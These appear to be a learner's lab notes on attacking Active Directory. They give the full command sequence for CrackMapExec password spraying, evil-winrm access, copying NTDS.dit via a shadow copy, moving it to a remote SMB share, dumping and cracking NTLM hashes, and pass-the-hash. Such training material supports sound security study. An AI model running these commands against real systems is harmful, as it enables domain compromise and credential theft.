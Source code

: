 > `Active Directory` (`AD`) is a common and critical directory service in modern enterprise networks. AD is something we will repeatedly encounter, so we need to be familiar with various methods we can use to attack & defend these AD environments. It is safe to conclude that if the organization uses Windows, then AD is used to manage those Windows systems. Attacking AD is such an extensive & significant topic that we have multiple modules covering AD.

>In this section, we will focus primarily on how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

This module is similar to [[Attacking LSASS]] as we will encounter NTDS file that contains information about the Directory Service 

#### Creating a Custom list of Usernames

```
$ ./username-anarchy --list-formats

first               	anna
firstlast           	annakey
first.last          	anna.key
firstlast[8]        	annakey
firstl              	annak
f.last              	a.key
flast               	akey
lfirst              	kanna
l.first             	k.anna
lastf               	keya
last                	key
last.f              	key.a
last.first          	key.anna
FLast               	AKey
first1              	anna0,anna1,anna2
fl                  	ak
fmlast              	abkey
firstmiddlelast     	annaboomkey
fml                 	abk
FL                  	AK
FirstLast           	AnnaKey
First.Last          	Anna.Key
Last                	Key
FML                 	ABK


```

```
$ ./username-anarchy --input-file ./test-names.txt  --select-format first.last
andrew.horton
jim.vongrippenvud
peter.otoole
```

 #username-anarchy #cracking #usernames

#### Launching the Attack with CrackMapExec

```
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

#crackmapexec #smb #username-anarchy 

## Capturing NTDS.dit

>`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot$/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain similar to the technique we covered in this module's `Attacking SAM` section. As we practice this technique, consider the importance of protecting AD and brainstorm a few ways to stop this attack from happening.

```
$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#evil-winrm 

#### Checking Local Group Membership && User Account Privileges including Domain

```c
*Evil-WinRM* PS C:\> net localgroup
*Evil-WinRM* PS C:\> net user bwilliamson


Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.


```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

#ntds #net 

#### Creating Shadow Copy of C:

> We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.

```c
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```


```c
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```


```c
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#evil-winrm #ntds #impacket #impacket_share
#sam_transfer 

#### A Faster Method: Using CrackMapExec to Capture NTDS.dit


```
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

#crackmapexec #ntds #dumping #ntlm 

We can then use Hashcat to crack the output dumped from CrackMapExec

```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

And use Pass the Hash attack:

```
$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

#hashcat #cracking #pth #ntlm #evil-winrm 

